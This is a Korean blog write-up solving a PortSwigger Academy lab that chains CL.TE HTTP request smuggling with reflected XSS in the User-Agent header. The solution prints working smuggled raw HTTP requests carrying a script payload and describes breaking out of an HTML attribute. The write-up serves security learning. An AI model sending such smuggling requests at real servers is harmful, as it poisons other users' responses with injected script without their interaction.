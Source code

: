 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to deliver reflected XSS"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-24 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요 (Using HTTP request smuggling to exploit reflected XSS)
웹 어플리케이션에 HTTP 요청 스머글링이 가능하고, 반사형 XSS 취약점이 존재한다면, 스머글링을 통해 다른 유저에게 XSS 공격을 할 수 있다. 이 공격은 보통의 XSS보다 훨씬 강력한데, 이유는 다음 두 가지다. 

1. 유저의 인터랙션이 필요없다! 💣 즉, 유저에게 URL을 보내고 방문하는 것을 기다릴 필요가 없다. 
2. 보통의 반사형 XSS에서는 공격에 사용할 수 없는 부분 (예를들면 HTTP요청 헤더)에 까지 XSS 페이로드를 지정할 수 있다. 
(보통의 반사형 XSS에서는 URL에 지정가능한 파라메터가 HTTP응답에 나타나서 발생하는 방식이다. 따라서 공격가능 포인트는 파라메터가 된다.)

예를 들면 다음과 같다. 스머글링용 요청의 User-Agent 헤더에 XSS 페이로드가 지정되어 있다. 

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```


# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 chunked encoding(TE헤더)을 지원하지 않는다. (즉, CL.TE패턴이다.)
- 어플리케이션에는 User-Agent 헤더에 반사형 XSS취약점이 있다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 다른 유저의 요청에 대한 응답으로 XSS페이로드를 포함한 응답이 돌아가도록 만들어 alert(1)을 동작시키면 된다. 
- 랩은 Victim의 행동을 시뮬레이션하고 있다. 몇 개의 POST요청이 발생할 때마다 victim도 요청을 보낸다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.
```

# 풀이 
1. 문제를 풀려면 두 가지가 확인되어야 한다. 먼저 HTTP Request Smuggling이 가능한 곳을 찾아야 한다. 그리고 User-Agent로 반사형 XSS가 가능한 곳을 찾아야 한다. 

2. XSS가 가능한 곳은 Burp Scanner를 통해서 찾았다. 포스트의 상세를 조회하는 곳 `GET /post?postId=1`이었다. 

3. 다음 공격 페이로드를 준비했다. 

```http
POST / HTTP/1.1
Host: 0a1300a203e4364c80bad0960051006c.web-security-academy.net
Cookie: session=uiMLoWX19LHH2HSGHxnXw1HI7Nygc0ft
Content-Length: 79
Transfer-Encoding: chunked

0

GET /post?postId=1 HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

4. 요청을 두번보내면 응답에서 다음과 같이 `<script>alert(1)</script>`가 표시되고 있는 것을 볼 수 있다. 

![HTTP 스머글링 시도-1](/images/burp-academy-hrs-10-1.png)

5. 페이로드가 HTML 엘레먼트로 동작되도록 앞에 `"/>`를 붙여준다. 그러면 다음과 같이 `<script>`태그가 밖으로 나온다. 이 상태라면 Javascript가 동작한다. 

![HTTP 스머글링 시도-2](/images/burp-academy-hrs-10-2.png)

6. 페이로드를 다시 보낸다. 그러면 Victim이 사이트에 찾아오는 시뮬레이션이 수행되고 문제가 풀렸다는 메세지가 표시된다. 

![풀이 성공](/images/burp-academy-hrs-10-success.png)
